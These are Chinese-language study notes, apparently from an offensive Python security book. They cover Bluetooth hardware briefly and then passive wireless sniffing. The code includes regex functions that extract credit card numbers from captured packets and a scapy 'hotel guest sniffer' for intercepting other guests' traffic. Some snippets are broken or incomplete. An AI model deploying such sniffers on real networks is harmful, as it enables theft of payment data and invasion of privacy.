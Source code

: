 另外还需要有一个蓝牙设备。大部分使用 Cambridge Silicon Radio（CSR）公司出品的芯片组的蓝牙设备都能在 Linux 系统下正常工作。可以使用 `hciconfig config` 命令把蓝牙设备的详细配置信息打印在屏幕上

Backtrack5 r1 上有一个小瑕疵——在这个已经编译好的内核中，没有可以用来直接发送数据链路层上的蓝牙数据包的内核模块。所以需要升级或者使用 Backtrack5 r2

## 绵羊墙-被动窃听无线网络中传输的秘密

### 使用 Python 正则表达式嗅探信用卡信息

最常用的三种信用卡：Visa、MasterCard 和 American Express，登录 `http://www.regular-expressions.info/creditcard.html`，其中会提供其他银行的信用卡卡号的正则表达式。

American Express 信用卡由 34 或者 37 开头的 15 位数字组成。

```python
import re
def find_credit_card(raw):
    america_re = re.findall("3[47][0-9]{13}", raw)
    if america_re:
        print("[+] Found American Express Card: {}".format(america_re[0]))
        
def main():
    tests = []
    tests.append("I would like to buy 1337 copies of that dvd")
    tests.append("Bill my card: 378282246310005 for \$2600")
    for test in tests:
        fiind_credit_card(test)
```

类似地可以写出 MasterCards 和 Visa 信用卡卡号的正则表达式

```python
def find_credit_card(pkt):
    raw = pkt.sprintf("%Raw.load%")
    america_re = re.findall("3[47][0-9]{13}", raw)
    master_re = re.findall("5[1-5][0-9]{14}", raw)
    visa_re = re.findall("4[0-9]{12}(?:[0-9]{3})?", raw)
    if america_re:
        print("[+] Found American Express Card: {}".format(america_re[0]))
    if master_re:
        print("[+] Found MasterCard Card: {}".format(master_re[0]))
    if visa_re:
        print("[+] Found Visa Card: {}".format(visa_re[0]))
```

### 嗅探宾馆住客

使用 Python 来截取酒店里其它住客的信息。

```python
conf.iface = "mon0"
try:
	print("[*] Starting Hotel Guest Sniffer.")
    sniff(filter="tcp", prn=find_guest, store=0)
except KeyboardInterrupt:
    exit(0)
```
